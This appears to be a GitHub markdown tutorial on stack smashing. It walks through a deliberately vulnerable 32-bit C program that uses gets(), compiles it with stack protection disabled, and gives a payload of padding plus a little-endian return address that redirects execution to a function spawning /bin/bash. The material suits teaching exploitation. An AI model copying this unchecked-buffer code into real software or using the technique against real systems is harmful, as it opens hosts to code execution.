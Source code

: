 
<h3> Intro to Stack Smashing : Buffer Overflow</h3>
<hr>
</br>
<b> Ques : What is Buffer and what is buffer overflow ? </b> 
</br> 
<b> Ans &nbsp; -> Buffer </b>: Simple a temporary variable used to store data.</br>
<b>&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; -> Buffer Overflow</b>: Occurs when the data written to a buffer is larger than the size of the buffer itself & there are insufficient checks , which further leads to overflow and over-writing to adjacent memory locations.</br>
</br> 
 &nbsp; &nbsp; &nbsp; Example Code : 
</br> 

```bash
user@PC-Name:~# cat vulnerableCode.c

#include<stdio.h>
#include<stdlib.h>


void dangerousFunction()  {
  printf("GIVING SHELL\n");
  system("/bin/bash");
}

void getInput() {
  char ans[12];
  printf("String is at : %p\n",ans);
  gets(ans);
  printf("String is at : %p\n",ans);
  puts(ans);
}

int main(){
  getInput();

}

user@PC-Name:~# gcc -ggdb vulnerableCode.c -o vulnerableCode -m32
```

</br> 
&nbsp; -> The way the stack , the registers and our buffer is rendered in memory is : <img src="./stackLayout.png">.
</br> 
&nbsp; -> Now since we know that the stack grows from high memory to low memory and if we somehow are able to <b>over-write the return address with the address of our shellcode or any function we want</b>, then as soon as the function returns the control by popping the `RET` address from stack and jumpoing to it we wil achieve code execution.
</br> 
&nbsp; -> Example : 
</br> 

```bash
user@PC-Name:~# cat canYouExecuteMeCode.c 
#include<stdio.h>
#include<stdlib.h>


void dangerousFunction()  {
  system("/bin/bash");
}

void getInput() {
  char ans[12];
  gets(ans);
  puts("String is : ");
  puts(ans);
}

int main( int argc,  char *argv[]){
  getInput();
}

# goal is to execute the function dangerousFunction as it would give us shell on the machine.

# For demo purposes  : Disable ASLR & compile with no stack canary + set stack as executable
user@PC-Name:~# gcc -ggdb canYouExecuteMeCode.c -o canYouExecuteMeCode -m32 -fno-stack-protector -z execstack
> disass dangerousFunction 
Dump of assembler code for function dangerousFunction:
  `0x0804847d` <+0>: push   ebp
   0x0804847e <+1>:  mov    ebp,esp
   0x08048480 <+3>:  sub    esp,0x18
   0x08048483 <+6>:  mov    DWORD PTR [esp],0x8048570
   0x0804848a <+13>: call   0x8048340 <puts@plt>
   0x0804848f <+18>: mov    DWORD PTR [esp],0x804857d
   0x08048496 <+25>: call   0x8048350 <system@plt>
   0x0804849b <+30>: leave  
   0x0804849c <+31>: ret    
End of assembler dump.

#If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` then this function would automatically be executed.

```

</br> 
<ul>
<li type=1>If we somehow get the EIP (Instruction Pointer) to point to this location `0x0804847d` i.e address of dangerousFunction(which gives us shell)then this function would automatically be executed.</li>
<li type=1>Now let's recollect all what we know -:</li>
&nbsp;-> layout of the stack and the fact that the buffer size of the input in 12 bytes</br>
&nbsp;-> The code running on the machine is 32-bit which means bufferSize + 8bytes(bcoz of EBP and RET address pushed in stack) + sizeof(variables declared on stack) needs to be junked and address which we want EIP to point to should be passed next.</br>
&nbsp;-> The code running on the machine is little endian (must be kept in mind while passing address)</br>
&nbsp;-> The address of dangerousFunction i.e 0x0804847d.
<li type=1>Let us create our payload now</li>

```bash
# In our case we needed 12+8+4 = 24bytes after which we can inject our actual payload.
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08'
# Note the actual address passed is in reverse order (thanks to little endian)
```

<li type=1>Let's hack it..</li>

```bash
user@PC-Name:~# echo -e 'AAAAAAAAAAAAAAAAAAAAAAAA\x7d\x84\x04\x08' | ./canYouExecuteMeCode
String is at : 0xffffd724
String is at : 0xffffd724
AAAAAAAAAAAAAAAAAAAAAAAA}�
`GIVING SHELL`
`Illegal instruction (core dumped)` 
`user@PC-Name:~# `

```
<li type=1>Shell is up.</li>
<li type=1>In this example we had a `dangerousFunction()` in the code, but it will never be there in real world</li>
<li type=1>IIn the next Example we will see how we can inject our custom<a href="./shellcode.md" target="_blank"> shellcode </a> and expoit buffer overflow to get shell.</li>
</ul>
</br> 

